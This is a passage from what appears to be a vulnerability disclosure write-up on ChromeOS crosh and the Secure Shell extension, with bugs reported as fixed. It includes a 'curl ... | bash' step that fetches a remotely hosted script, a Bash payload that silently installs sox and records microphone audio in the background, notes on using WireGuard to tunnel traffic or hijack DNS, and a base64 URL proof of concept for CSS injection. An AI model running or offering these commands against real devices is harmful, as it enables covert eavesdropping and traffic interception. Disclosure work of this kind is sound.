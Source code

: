 Camera input is not supported by Termina VMs. It seems supported by ARC (Android), PluginVM (Parallels?), and Borealis (Steam) VMs. If any of these supported VMs are available in the target system and are accessible via crosh, an attacker may also be able to access the camera (this is unconfirmed, but seems likely based on code analysis).

As a demonstration of performing this in the background, replace steps 3 and 4 with the Bash script hosted at https://aogarantiza.com/chromium/crosh-payload-2.txt (which can be run by an attacker with `curl ... | bash`):

```bash
#!/bin/bash

run_payload() {
  sleep 10
  sudo apt install sox
  sleep 10
  rec -t alsa
}

echo "Hello, this will record audio in 20-40 seconds... you can close this shell/tab and it will still run"
run_payload &
```

### Set WireGuard configuration

(unsure if this is useful to attacker)

Able to set WireGuard VPN config via crosh `wireguard` command. However, I can't get DNS working until I toggle "automatically configure network settings" in GUI. Maybe someone with more experience configuring WireGuard can figure out how to make this useful for an attacker. If it does work, I think this might allow attackers to tunnel traffic through their WireGuard server and potentially hijack DNS.

No notification is shown when WireGuard is connected, but notification is shown when it is disconnected.

This was fixed by adding `frame-ancestors 'self';` to the extensions `content_security_policy`.
<https://chromium-review.googlesource.com/c/apps/libapps/+/4603751>

# Content injection / CSP-prevented XSS in the Secure Shell extension (Fixed)

**URL:** <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>

1. Download secure shell extension via <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
2. Go to `chrome-extension://iodihamcpbpeioajjeobimgagajmlibd/plugin/mosh/mosh_window.html?args=eyJzdHlsZSI6ImJhY2tncm91bmQtaW1hZ2U6IHVybChcImh0dHBzOi8vaHR0cC5jYXQvMjAwXCIpIiwid2lkdGgiOjEwMDAsImhlaWdodCI6MTAwMH0=` (This could be done directly or via a WAR bypass)
3. See cat

args from the url gets base64 decoded and set as attributes for a html embed tag.
While JS is prevented due to the CSP it still allows for CSS. <https://issuetracker.google.com/issues/260531249>

